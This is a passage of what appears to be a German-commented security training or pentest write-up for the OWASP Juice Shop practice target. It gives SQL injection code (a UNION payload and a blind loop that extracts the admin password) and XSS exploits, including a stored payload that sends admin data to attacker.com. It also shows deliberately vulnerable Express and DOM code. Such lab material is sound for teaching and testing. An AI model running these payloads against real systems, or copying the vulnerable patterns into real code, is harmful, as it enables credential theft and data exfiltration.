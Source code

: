 #### 2. Union-Based SQL Injection
```python
def union_based_sqli():
    # Extrahiere Daten über UNION SELECT
    payload = "' UNION SELECT username,password,email,1,2,3,4,5 FROM users--"
    return execute_payload(payload)
```

#### 3. Boolean-Based Blind SQL Injection
```python
def blind_sqli_boolean():
    alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"
    extracted_data = ""
    
    for position in range(1, 20):  # Max 20 Zeichen
        for char in alphabet:
            payload = f"admin' AND SUBSTRING((SELECT password FROM users WHERE email='admin@juice-sh.op'), {position}, 1)='{char}'--"
            
            if test_payload(payload):
                extracted_data += char
                break
                
    return extracted_data
```

### Cross-Site Scripting (XSS)

#### 1. Reflected XSS
```javascript
// Vulnerable Code
app.get('/search', (req, res) => {
    res.send(`<h1>Search Results for: ${req.query.q}</h1>`);
});

// Exploit URL
// /search?q=<script>alert('XSS')</script>
```

#### 2. Stored XSS
```python
def stored_xss_exploit():
    malicious_comment = "<script>fetch('/admin/users').then(r=>r.text()).then(data=>fetch('http://attacker.com/steal?data='+btoa(data)))</script>"
    
    submit_feedback({
        "comment": malicious_comment,
        "rating": 5
    })
```

#### 3. DOM-Based XSS
```javascript
// Vulnerable Client-Side Code
document.getElementById('output').innerHTML = location.hash.substring(1);

// Exploit URL
// page.html#<img src=x onerror=alert('XSS')>
```
